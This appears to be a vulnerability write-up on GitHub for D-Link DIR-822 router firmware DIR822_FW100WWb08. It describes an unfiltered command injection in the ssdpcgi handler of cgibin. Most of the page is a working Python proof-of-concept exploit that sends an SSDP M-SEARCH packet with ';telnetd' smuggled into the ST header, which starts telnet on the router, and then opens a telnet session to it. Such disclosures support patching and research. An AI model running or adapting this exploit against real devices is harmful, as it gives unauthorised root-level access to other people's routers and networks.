 ### 1、 Vulnerability Introduction

DIR-822文件中，存在命令执行漏洞

### 2、 Firmware version

```
DIR822_FW100WWb08.bin
```

### 3、 vulnerability analysis

```
In the cgibin file, ssdpcgi_ In the main function, the data passed from the front-end is obtained through getenv and directly passed as a parameter to lxmldbc without filtering_ Command execution vulnerability caused by system function
```

![Image](https://github.com/XYIYM/Digging/blob/main/D-LINK/DIR-822/cmd/1/upload/clip_image002.jpg)<br>

### 4、 poc

```python
import sys
import os
import socket
from time import sleep

def config_payload(ip, port):
  header = "M-SEARCH * HTTP/1.1\n"
  header += "HOST:"+str(ip)+":"+str(port)+"\n"
  header += "ST:urn:device:1;telnetd\n"
  header += "MX:2\n"
  header += 'MAN:"ssdp:discover"'+"\n\n"
  return header
  
def send_conexion(ip, port, payload):
  sock=socket.socket(socket.AF_INET,socket.SOCK_DGRAM,socket.IPPROTO_UDP)
  sock.setsockopt(socket.IPPROTO_IP,socket.IP_MULTICAST_TTL,2)
  sock.sendto(payload,(ip, port))
  sock.close()
  
if __name__== "__main__":
  ip = raw_input("Router IP: ")
  port = 1900

headers = config_payload(ip, port)
send_conexion(ip, port, headers)
sleep(5)
os.system('telnet ' + str(ip))
```

![Image](https://github.com/XYIYM/Digging/blob/main/D-LINK/DIR-822/cmd/1/upload/clip_image004.jpg)<br>
